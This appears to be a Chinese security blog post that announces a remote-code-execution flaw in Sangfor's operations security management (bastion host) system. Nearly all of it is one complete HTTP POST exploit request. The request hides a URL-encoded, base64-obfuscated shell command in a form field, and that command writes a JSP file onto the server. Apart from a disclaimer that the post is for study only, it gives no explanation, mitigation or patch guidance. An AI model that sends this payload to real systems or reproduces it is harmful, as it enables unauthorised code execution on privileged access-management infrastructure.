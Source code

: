 #  深信服运维安全管理系统RCE漏洞  
 网络安全透视镜   2025-07-07 23:30  
  
```
POST /fort/system;login/netConfig/set_port HTTP/1.1
Host: 127.0.0.1:1433
Cookie: sessionid=stc0IkIAbGvfWmYHCijEEr3QpEmswCCOkZtEVFI5BMle3vGS4YT4iS67NusJbgkiA%2Cfn24jPKbUEg6n1DlCo%2CPFWy3f90ToYzRdrHc8TBxmcGOe%2CSN%2CvNT6uJhNEFjFD; hadSetUkey=0
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Dnt: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 594
Connection: close

select=6379%2B-j%2BDROP%0A%62%61%73%68%20%2d%63%20%24%28%65%63%68%6f%20%5a%57%4e%6f%62%79%41%69%55%45%4e%57%64%6d%52%59%55%58%56%6b%4d%30%70%77%5a%45%64%56%62%30%6c%71%52%57%6c%4c%56%48%4e%73%55%47%63%39%50%53%49%67%66%47%4a%68%63%32%55%32%4e%43%41%74%5a%43%41%2b%49%43%39%31%63%33%49%76%62%47%39%6a%59%57%77%76%64%47%39%74%59%32%46%30%4c%33%64%6c%59%6d%46%77%63%48%4d%76%5a%6d%39%79%64%43%39%30%63%6e%56%7a%64%43%39%32%5a%58%4a%7a%61%57%39%75%4c%32%78%76%5a%79%35%71%63%33%41%3d%20%7c%20%62%61%73%65%36%34%20%2d%64%20%7c%20%62%61%73%68%20%2d%69%29%0a%65%78%69%74%3b%0Aecho&Unselect=22,443,9443
```  
  
  
# 文章来源互联网收集整理，请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS51gqsJwIM82Y5RTicXUygDUxQ76EiavrIibm8L0BUzdF6veUR4dQOKJn2iaEFQlNeq0PIPSFXTibx0OZw/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
